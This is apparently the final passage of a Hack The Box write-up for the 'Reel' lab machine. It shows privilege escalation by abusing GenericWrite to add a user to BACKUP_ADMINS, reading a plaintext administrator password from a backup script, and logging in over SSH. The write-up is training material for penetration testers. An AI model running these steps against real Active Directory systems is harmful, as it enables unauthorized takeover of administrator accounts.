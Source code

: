 ![image2](/assets/images/htb-reel/reel2.png)

We have `GenericWrite` over `BACKUP_ADMINS@HTB.LOCAL`, so let's add her to the group

```
net group backup_admins claire /add
```

Now I have acess to the Admnistrator directory, but I can't read the flag

```
claire@REEL c:\Users\Administrator\Desktop>dir                                                                                  
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CC8A-33E1                                                                                              

 Directory of c:\Users\Administrator\Desktop                                                                                    

01/21/2018  02:56 PM    <DIR>          .                                                                                        
01/21/2018  02:56 PM    <DIR>          ..                                                                                       
11/02/2017  09:47 PM    <DIR>          Backup Scripts                                                                           
10/28/2017  11:56 AM                32 root.txt                                                                                 
               1 File(s)             32 bytes                                                                                   
               3 Dir(s)  15,767,867,392 bytes free
```

In `Backup Script` there's a file that if we read it we find  a password:

```
type BackupScript.ps1                                                  
# admin password                                                                                                                 
$password="Cr4ckMeIfYouC4n!"
```

ssh to the administrator account

```
ssh administrator@10.10.10.77
```
